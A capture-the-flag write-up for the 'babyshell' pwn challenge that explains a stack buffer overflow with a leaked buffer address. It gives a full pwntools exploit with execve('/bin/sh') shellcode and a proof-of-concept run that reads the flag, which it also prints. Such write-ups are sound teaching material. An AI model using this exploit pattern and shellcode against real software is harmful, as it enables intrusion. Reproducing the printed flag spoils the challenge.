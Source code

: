 # Babyshell :shell:

## Description: 

* You found a little baby crying inside a basket! It looks like it lost its shell-toy. Please, buy a new one for the poor baby.

## Objective: 

* Take advantage of *BufferOverflow* , `NX` disabled and leaked `buffer address`to inject shellcode.

## Flag: :black_flag:
* UNIWA{b4by_l0v3s_th3_sh3ll}

## Challenge:

First of all, we start with a `checksec`:  

```sh
gef➤  checksec 
[+] checksec for '/home/w3th4nds/github/UniWA_CTF_2020-2021/pwn/baby_shell/babyshell'
Canary                        : ✘ 
NX                            : ✘ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```

As we can see only `PIE` is enabled.

The interface of the program looks like this:

```sh
w3th4nds@void:~/github/UniWA_CTF_2020-2021/pwn/baby_shell$ ./babyshell 
~Inside the toy store~

Current cash: 6.9$

[1] Pay with cash (22.69$).
[2] Enter gift code.
> 2
Insert gift code:
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
This is a gift-code for your next purchase: [0x7ffdba507ce0]
Do you need anything else?
```

We see there are 2 options and a `leak`.  

### Disassembly :pick:

Starting from `main`:

```c
undefined8 main(void)

{
  int iVar1;
  undefined local_48 [32];
  char local_28 [28];
  int local_c;
  
  setup();
  puts("~Inside the toy store~\n");
  printf((char *)0x401b99999999999a,"Current cash: %.1f$\n\n");
  printf("[1] Pay with cash (22.69$).\n[2] Enter gift code.\n> ");
  __isoc99_scanf(&DAT_00100b3c,&local_c);
  if (local_c == 1) {
    printf("You do not have enough money!");
  }
  else {
    if (local_c == 2) {
      printf("Insert gift code:\n> ");
      read(0,local_28,10);
      iVar1 = strcmp("tw1nkl3tw1nkl3",local_28);
      if (iVar1 == 0) {
        puts("The gift code is not valid!");
                    /* WARNING: Subroutine does not return */
        exit(0x45);
      }
      printf("This is a gift-code for your next purchase: [%p]\nDo you need anything else?\n> ",
             local_48);
      __isoc99_scanf(&DAT_00100bef,local_48);
    }
  }
  return 0;
}
```

As we can see, we have a `leak` of the buffer we write (`local_48`).

We also have an `Overflow` due to `scanf` having no limits here.

So, our goal is:

* Save`leaked` address.
* Fill the buffer with our `shellcode` and `nops` and overwrite the `return` address with our `leaked` address.

We found form `gdb` that the `return` address is after 72 bytes:

```gdb
[+] Found at offset 72 (big-endian search)
```

The final payload looks like this:

```python
payload = sc.ljust(72, b'\x90') + p64(leaked)
```

### Exploit :scroll:

```python
#!/usr/bin/python3
from pwn import *

ip = 'ctf.uniwa.gr' # change this
port = 6969 # change this
fname = './babyshell' # change this

LOCAL = False

if LOCAL:
	r = process(fname)
else:
	r = remote(ip, port)

ru = lambda x : r.recvuntil(x)
inter = lambda : r.interactive()
sla = lambda x,y : r.sendlineafter(x,y)

def pwn():
	sla('>', '2')
	sla('>', 'random')
	sc = b'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'

	ru('[')
	leaked = int(ru(']')[:-1],16)
	print('Leaked: 0x{:x}'.format(leaked)) 
	payload = sc.ljust(72, b'\x90') + p64(leaked)
	sla('>', payload)
	inter()


if __name__ == '__main__':
	pwn()
```



### PoC: :checkered_flag:

```sh
w3th4nds@void:~/github/UniWA_CTF_2020-2021/pwn/baby_shell$ ./exp.py 
[+] Starting local process './babyshell': pid 9572
Leaked: 0x7ffc2582f8d0
[*] Switching to interactive mode
 $ ls
Makefile  README.md  babyshell    babyshell.c  core  exp.py  flag.txt
$ cat flag.txt
UNIWA{b4by_l0v3s_th3_sh3ll}
```

